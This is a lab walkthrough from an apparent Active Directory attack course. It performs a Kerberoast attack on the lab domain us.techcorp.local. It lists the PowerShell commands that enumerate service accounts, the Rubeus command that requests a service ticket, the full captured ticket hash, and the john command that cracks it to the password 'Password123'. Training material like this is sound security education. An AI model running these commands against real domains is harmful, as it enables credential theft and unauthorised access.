



# Hands-on 6 - Kerberoast

- [Hands-on 6 - Kerberoast](#hands-on-6---kerberoast)
  - [Tasks](#tasks)

---

## Tasks

Using the Kerberoast attack, get the clear-text password for an account in us.techcorp.local domain.

<br/>

---

First enumerate accounts with SPN set:

```
cd C:\AD\Tools\ADModule-master; Import-Module .\Microsoft.ActiveDirectory.Management.dll; Import-Module .\ActiveDirectory\ActiveDirectory.psd1
```

```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

  

- User: `USSvc/serrviceaccount`
- Machine: `appsvc/us-jump.us.techcorp.local`

<br/>

Then use **Rubeus.exe** to request for TGS:

```
.\Rubeus.exe kerberoast /user:serviceaccount /simple
```

  

```
$krb5tgs$23$*serviceaccount$us.techcorp.local$USSvc/serviceaccount*$06893384F048FBFC378019DB32C664E0$3494259D92DFF2B111A6F2D5C47259E38DD127A163368CC27F642F1136B5F4F0CFE54BDB19936FBF58AA8F9C96CA8545273B832B422DAA547312A0419A795BB8F1C9C849506AF99E5CBADAC7E3734FA370B4CDFB6BC62ADC0BA23E702C4CAEB0D4F4C5808CC61749160E25A8C2F14C3FE92F104DD83CA5F1700262A52ECB40F6AAC94D2310D1D3B92491A0B96A08E092FB4ECBA7CF884C0D2FFAB8B187C51C6A22BB1FB615DB1B6407975D55E4562AEBC7CED385DC3E94A97935DC01ED2D0D30EB6260A80D7A0FCA2FDA34952B2D01B9448708F603A8638DA70D2DF542809F05F328424294EBB7B500F44741C37317CC4C7D48BF0ED598D2EEA5781831BA784823031DCBCB8EB474DF3103334C65F05DB98C8EB300E2E85FACB6DF3B5A237F0DC07CDCA34050529BECC7EE916C44A724EFEDAC0282D7EDE86080E8141D97781163AF59C54D81B2A16056A556447A81F559FE0D7478D0A8706E19DFDFAE901BFCCAD0A633929E5025BFEE582C710B1E3D0CBB12F61C23298A9CB0546EDC6DC4A3FE731AA68C46224AA9B9ECC7E1D57DB055FC83785DC55D922EFC2D29EA4DA7F36C09D03AACDFC7894A37C1637A9EFEBAFCB5DC895CACBBA52FC219FBF4D653036480A84A21981B01602D340BD19EBE557394938936BE4D6635C7D09F72A1F995680EA05BFCBDF6C63239B0F1EC74DCF0EAA34FF17655EAC12786E22C753DE86F987803E9B6C196B95566A84B47E4DF1254FF5E226D8ED44F43921B660680606DA148696D9596618BBEBBBE5D44C6B7E189794779D170CACF88DB0CB43D5CB1DC6EF631F22A69778C751105C41AD8298D723F47270DD8193C985ECB2163DE02D493D9C1A294038919ED456F16B88D73C909E36DE77CE77982C076F8D47DBDCC55F9FC0B6630A2D756764C657F697FB8CDDA048F76E5B7823008EB81E295F6AB13B53BB25A208C80EE1FCC49C229970EA59BFDC8F170A8549116CFA2714D982C2BC7073A76ADE8E3C07BAB084AA270D794390EA2A2838E8055D33D3F74688A446DFD695FA5BA9C79B33E27FCCA6B05C568FB32AE28D74F896D8C050DC63CC14257EA1C0EEC6B544BE3A14084232BF11DED041811D8404C91AFC97F2AE84F661B6B226412D54024BBAEB1744F8C657282F48CC646C21BDB518BD3CA17A3911359FEDD4466B2F352C7BA8F94C50DF7AF365314666034547486C66418F4356459D794820803885FF49AB8C8A1C4DBB762A5B23DC77E16EC9CA5992BFEA98D90848B2BB9DEADDB3D55FA93E6A113674CC5E844E9447968F40A35476C0ECCE4E6B6A9835025269922FC25D34066CBD882F1B47025A35279BC3DD9812A845C2FCB319C92A22BDFB82BCEF06268F02467FD236749FF42734ACBCC99A330AC446215E8D0BD5FE58FE14A62E75DC964D5EC49F7930C3AA24A1F88B7F5BEF80538833077CB46D10B7ACDC3B4FE665357EF6802F3DC275FB99895E4D5036B4F5F4600A979E93A74192BAE34CFD5A7E517D61872D7344C1008E497F6A62B99AC6F30B6252B2354A5B34A3D4CD61CA32A6038110E707B5B2853C53498855DB03F49C12BD90DF7E4042C01C55F1EB74BF3A5227714C1
```

<br/>

Save the output hash as **kerberoast-serviceaccount-krb5tgs-hash.txt**.

Use **john.exe** to crack:

```
C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\kerberoast-serviceaccount-krb5tgs-hash.txt
```

  

- As shown, the cracked password is `Password123`.

<br/>

---